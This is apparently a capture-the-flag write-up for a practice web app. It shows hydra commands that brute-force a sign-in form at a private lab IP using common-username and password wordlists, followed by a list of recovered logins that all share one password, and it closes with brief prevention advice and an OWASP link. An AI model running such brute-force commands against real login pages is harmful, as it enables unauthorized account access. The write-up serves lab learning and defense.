 
# How to get the flag

By using hydra :
```
sudo hydra \
	-L 10K_common_usernames.txt \ # option to add login text file
	-P 10K_common_passwords.txt \ # option to add password text file
	10.211.55.6 \ # target ip
	http-get-form \ # module to use, in this case the website sends a get method when form submitted to the server
	"/:page=signin&username=^USER^&password=^PASS^&Login=Login#:WrongAnswer.gif" 
		^
		| <- "login_page:request_sent:condition_text"
```

You can found credentials, some example :
-  login: info   password: shadow
-  login: admin   password: shadow
-  login: 2000   password: shadow
-  login: michael   password: shadow
-  login: NULL   password: shadow
-  login: john   password: shadow
-  login: david   password: shadow
-  login: robert   password: shadow
-  login: chris   password: shadow
-  login: mike   password: shadow
-  login: dave   password: shadow
-  login: richard   password: shadow
-  login: 123456   password: shadow
-  login: thomas   password: shadow
-  login: steve   password: shadow
-  login: mark   password: shadow
-  login: andrew   password: shadow
-  login: daniel   password: shadow
-  login: george   password: shadow
-  login: paul   password: shadow
-  login: charlie   password: shadow
-  login: dragon   password: shadow
-  login: james   password: shadow
-  login: qwerty   password: shadow
-  login: martin   password: shadow
-  login: master   password: shadow
-  login: pussy   password: shadow
-  login: mail   password: shadow

They all use the password shadow so we could find every single username that shares this password with the command:
```
sudo hydra -L 10K_common_usernames.txt -p shadow 10.211.55.6 http-get-form "/:page=signin&username=^USER^&password=^PASS^&Login=Login#:WrongAnswer.gif"
```

# How to prevent attack

You can limit login attempts, use Two-Factor Authentication or use CAPTCHAs.


# Documentation

https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks